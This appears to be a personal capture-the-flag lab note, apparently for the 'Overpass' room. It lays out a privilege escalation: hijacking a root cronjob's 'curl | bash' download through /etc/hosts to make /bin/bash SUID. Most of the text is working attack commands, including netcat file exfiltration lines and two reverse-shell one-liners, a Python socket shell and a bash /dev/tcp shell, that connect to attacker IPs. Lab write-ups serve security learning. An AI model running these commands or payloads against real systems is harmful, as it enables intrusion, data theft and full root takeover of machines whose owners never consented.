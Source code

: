 netcat sending files
nc 10.10.10.10 1234 < out.file
nc -lvnp 1234 > file.txt

scan using linpeas.sh

this is a cronjob
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
every minute,every hour,every month, every year * ** * 

edit /etc/hosts
ping overpass.thm

checking permission on /bin/bash
ls -al /bin/bash

after editing /etc/hosts create a fake directory in ur local pc
mkdir -p /downloads/src

now create a bash script

#!/bin/bash
chmod +s /bin/bash

create a python server in the fake directory
sudo python3 -m http.server 80

watch ls -al /bin/bash

/bin/bash -p

__Reverse shell__
--my way--
#!/bin/bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.49.217",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

listen on attacker machine
nc -lvnp 4444

--also my way--
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.208.81/4444 0>&1"